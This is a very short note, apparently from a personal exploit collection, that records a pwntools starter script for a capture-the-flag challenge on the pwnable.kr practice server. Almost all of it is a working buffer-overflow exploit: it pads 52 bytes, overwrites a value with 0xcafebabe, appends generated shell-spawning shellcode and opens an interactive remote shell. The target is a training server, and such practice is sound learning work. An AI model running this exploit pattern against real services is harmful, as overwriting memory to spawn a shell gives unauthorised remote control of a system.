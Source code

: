 #### Record some expolit of  payload.

pwntools起手式

```
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```
